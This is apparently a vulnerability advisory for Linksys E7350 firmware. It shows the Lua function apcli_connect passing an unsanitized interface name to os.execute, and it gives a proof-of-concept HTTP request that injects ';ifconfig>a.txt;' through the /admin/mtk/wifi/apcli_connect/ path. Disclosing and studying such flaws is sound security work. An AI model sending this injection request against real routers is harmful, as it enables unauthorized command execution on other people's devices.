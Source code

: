 # Command injection vulnerability in api_connect function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in api_connect function in mtkwifi.lua

```
function apcli_connect(dev, vif)
 local dtrace = require "luci.debug";
 dtrace.trap_function_calls("apcli_connect");
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname=", vif)
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])
    local cfgs = mtkwifi.load_profile(profiles[devname])
    cfgs.ApCliEnable = "1"
    __mtkwifi_save_profile(cfgs, profiles[devname], true)
    os.execute("ifconfig "..vifname.." up") ---------------------------->  here
```

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/996f6494-a645-407a-a328-3d502b7ad7d5)

![图片](https://github.com/user-attachments/assets/329e2f84-e79f-4f3d-af33-6947202b0dd2)

Entry: /admin/mtk/wifi/apcli_connect/

! attention
To expolit successfully, we need the correct devname to pass the check. 
```
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])  ----------------->
```
here we use dev "MT7915D.1.1"


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.1/;ifconfig>a.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic YWRtaW46
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
Here we set the arguments "dev" as "MT7915D.1.1" and vif as ";ifconfig>a.txt;", and there will be a file named "a.txt" in /www/





